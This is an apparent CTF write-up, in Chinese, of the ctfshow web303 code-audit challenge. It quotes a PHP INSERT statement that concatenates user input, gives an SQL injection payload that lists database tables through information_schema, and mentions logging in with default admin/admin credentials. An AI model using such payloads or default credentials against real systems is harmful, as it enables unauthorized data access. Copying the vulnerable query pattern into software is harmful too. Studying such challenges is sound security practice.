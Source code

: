 ```yaml
---
title: "[代码审计]实战篇:web303"
desc: TonyD0g
date: 2022-01-31 11:37:04
tags: 代码审计
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-01-31

## 正文:
(请多多支持ctfshow,侵删)
源码下载:
https://ctfshow.lanzoui.com/i6wtkjg1gxa

## 白盒测试:

继续web302的思路,查看checklogin.php文件
发现无法注入:
![avatar](https://s4.ax1x.com/2022/01/31/HPXuSs.png)

翻了一下源文件,发现多了dptadd.php 和dpt.php文件
在dptadd.php中发现注入:
![avatar](https://s4.ax1x.com/2022/01/31/HPXETS.png)
```
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```


**Payload:**
查表:
```
dpt_name=1',sds_address =(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
```

看了下dpt.php，没有什么特别的地方.


## 黑盒测试:
admin/admin 进入管理页面
![avatar](https://s4.ax1x.com/2022/01/31/HPXAw8.png)
![avatar](https://s4.ax1x.com/2022/01/31/HPXeYQ.png)
![avatar](https://s4.ax1x.com/2022/01/31/HPXiOP.png)




</font>